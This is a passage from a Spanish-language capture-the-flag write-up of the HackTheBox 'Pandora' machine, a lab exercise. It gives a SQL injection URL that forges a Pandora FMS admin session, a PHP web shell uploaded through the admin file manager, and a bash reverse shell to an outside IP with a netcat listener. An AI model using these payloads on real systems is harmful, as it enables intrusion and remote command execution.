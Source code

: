 ```plaintext
http://pandora.pandora.htb/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

Vamos a realizar la petición manualmente y posteriormente conseguiremos la cookie del administrador.

![Obtención cookie del administrador]({{ 'assets/img/commons/pandora/cookie.png' | relative_url }}){: .center-image }
_Obtención cookie del administrador_

Introducimos la cookie del administrador y ya seremos capaces de visualizar el panel de administración. 

![Panel de administración]({{ 'assets/img/commons/pandora/panel_administracion.png' | relative_url }}){: .center-image }
_Panel de administración_

Buscando en el panel de administración encontramos un apartado llamado `Admin tools`, en él encontramos otro subapartado llamado `File manager`, en este subapartado vamos a ser capaces de subir un archivo que nos sirva como web shell.

Web shell en php:

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

![Upload WebShell]({{ 'assets/img/commons/pandora/upload_webshell.png' | relative_url }}){: .center-image }
_Upload Webshell_

Ahora entremos en la dirección en la que se encuentra nuestra web shell.

![Comprobación WebShell]({{ 'assets/img/commons/pandora/webshell.png' | relative_url }}){: .center-image }
_Comprobación Webshell_

Para hacerlo de una forma más eficaz y cómoda vamos a entablarnos una reverse shell hacia nuestro equipo. Lo primero de todo, es ponernos en escucha utilizando `netcat`.

```plaintext
❯ nc -nlvp 8080 
listening on [any] 8080 ...
```

Ya estando en escucha introducimos el siguiente comando en la web shell, es IMPORTANTE que lo introduzcamos codificado en url. Podemos utilizar páginas web como [esta](https://www.urlencoder.org/) o herramientas como `urlencode`.

```plaintext
bash -c "bash -i >& /dev/tcp/10.10.14.169/8080 0>&1"
```

Ya hemos establecido la reverse shell, ahora vamos a tratar la shell para hacerla completamente funcional.
